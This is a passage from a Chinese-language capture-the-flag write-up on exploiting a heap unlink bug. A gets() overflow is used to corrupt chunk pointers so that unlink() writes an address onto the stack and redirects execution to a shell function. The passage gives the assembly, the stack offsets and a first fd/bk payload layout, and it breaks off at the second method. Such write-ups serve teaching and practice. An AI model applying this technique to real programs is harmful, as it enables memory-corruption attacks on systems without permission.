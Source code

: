 ```
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

gets(A->buf) 很明显存在堆溢出，所以可以任意地址写，覆盖返回main函数地址为shell地址。

```
mov     ecx, [ebp+var_4]
leave
lea     esp, [ecx-4]
retn
```

从汇编我们可以看到，只需要如下几个步骤即可:

```
esp = heap_A_address + 8
=>
ecx - 4 = heap_A_address + 8
=>
ecx = heap_A_address + 12
=>
[ebp - 4] = heap_A_address + 12
=>
[stack_A_address + 16] = heap_A_address + 12
```

同时，我们知道:

```
A: stack_A_address = &A = ebp - 0x14
B: stack_B_address = &B = ebp - 0xc
C: stack_C_address = &C = ebp - 0x10
```

任意地址写代码如下:

```
FD->bk = BK;
BK->fd = FD;
```

相应的有两种方法:

方法一:

FD->bk = BK,则payload 如下:

```
fd: stack_A_address + 12
bk: heap_A_address + 12
```

方法二:
